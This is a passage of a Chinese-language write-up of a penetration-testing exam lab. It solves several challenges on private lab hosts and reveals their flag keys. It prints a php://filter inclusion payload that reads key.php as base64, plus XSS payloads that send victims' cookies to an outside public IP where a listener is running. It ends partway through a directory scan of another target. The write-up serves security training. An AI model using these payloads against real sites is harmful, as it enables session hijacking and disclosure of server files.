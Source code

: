 是可以的，那审题一下，直接包含key.php

![image-20221224123135004](F:/Typora_pic/pte/image-20221224123135004.png)

显示了get it但是源代码里没有，估计是PHP代码被解析了

用伪代码加密一下

```html
php://filter/read=convert.base64-encode/resource=../key.php
R2V0IGl0IQ0KPD9waHANCg0KLy9rZXkzOmZrZGI5bmV1DQo/Pg0K 
```

用base64解密一下

**key3:fkdb9neu**

## 4、http://10.11.0.155:84

这题是XSS漏洞，在测试环境下可以用公网弹个shell回来

先在公网服务器上开启端口监听

python -m http.server 30000

```json
<script>document.location='http://139.159.231.138:30000/?cookie='+document.cookie; alert('getit')</script>
<script>document.write('<img src="http://139.159.231.138:30000/?cookie='+document.cookie+'"/>');alert('getit');</script>
```

![image-20221224124848604](F:/Typora_pic/pte/image-20221224124848604.png)

注意这个如果用location可能弹不回来，考试的时候用img就好了

**key4=duzr5k3s**

## 5、http://10.11.0.155:85

[这题同http://10.11.0.92:1005](http://10.11.0.92:1005)

# http://10.11.0.236/

渗透大题，给了个地址，直接访问一下

![image-20221224125157461](F:/Typora_pic/pte/image-20221224125157461.png)

限制用域名访问

丢进御剑目录扫描一下

![image-20221224125457432](F:/Typora_pic/pte/image-20221224125457432.png)

扫出来个robots.txt，直接访问一下
